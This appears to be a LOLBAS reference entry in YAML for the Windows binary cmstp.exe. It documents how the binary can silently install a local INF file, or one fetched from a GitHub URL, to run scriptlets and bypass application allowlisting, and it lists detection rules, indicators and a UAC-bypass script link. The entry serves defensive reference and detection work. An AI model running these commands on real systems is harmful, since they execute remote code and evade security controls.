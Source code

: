 ```yaml
---
Name: Cmstp.exe
Description: Installs or removes a Connection Manager service profile.
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: cmstp.exe /ni /s c:\cmstp\CorpVPN.inf
    Description: Silently installs a specially formatted local .INF without creating a desktop icon. The .INF file contains a UnRegisterOCXSection section which executes a .SCT file using scrobj.dll.
    Usecase: Execute code hidden within an inf file. Download and run scriptlets from internet.
    Category: Execute
    Privileges: User
    MitreID: T1218.003
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: INF
  - Command: cmstp.exe /ni /s https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payload/Cmstp.inf
    Description: Silently installs a specially formatted remote .INF without creating a desktop icon. The .INF file contains a UnRegisterOCXSection section which executes a .SCT file using scrobj.dll.
    Usecase: Execute code hidden within an inf file. Execute code directly from Internet.
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218.003
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
    Tags:
      - Execute: INF
Full_Path:
  - Path: C:\Windows\System32\cmstp.exe
  - Path: C:\Windows\SysWOW64\cmstp.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/process_creation/proc_creation_win_cmstp_execution_by_creation.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/process_creation/proc_creation_win_uac_bypass_cmstp.yml
  - Splunk: https://github.com/splunk/security_content/blob/bee2a4cefa533f286c546cbe6798a0b5dec3e5ef/detections/endpoint/cmlua_or_cmstplua_uac_bypass.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/82ec6ac1eeb62a1383792719a1943b551264ed16/rules/windows/defense_evasion_suspicious_managedcode_host_process.toml
  - Elastic: https://github.com/elastic/detection-rules/blob/414d32027632a49fb239abb8fbbb55d3fa8dd861/rules/windows/defense_evasion_unusual_process_network_connection.toml
  - IOC: Execution of cmstp.exe without a VPN use case is suspicious
  - IOC: DotNet CLR libraries loaded into cmstp.exe
  - IOC: DotNet CLR Usage Log - cmstp.exe.log
Resources:
  - Link: https://twitter.com/NickTyrer/status/958450014111633408
  - Link: https://gist.github.com/NickTyrer/bbd10d20a5bb78f64a9d13f399ea0f80
  - Link: https://gist.github.com/api0cradle/cf36fd40fa991c3a6f7755d1810cc61e
  - Link: https://oddvar.moe/2017/08/15/research-on-cmstp-exe/
  - Link: https://gist.githubusercontent.com/tylerapplebaum/ae8cb38ed8314518d95b2e32a6f0d3f1/raw/3127ba7453a6f6d294cd422386cae1a5a2791d71/UACBypassCMSTP.ps1
  - Link: https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/cmstp
Acknowledgement:
  - Person: Oddvar Moe
    Handle: '@oddvarmoe'
  - Person: Nick Tyrer
    Handle: '@NickTyrer'
---
```

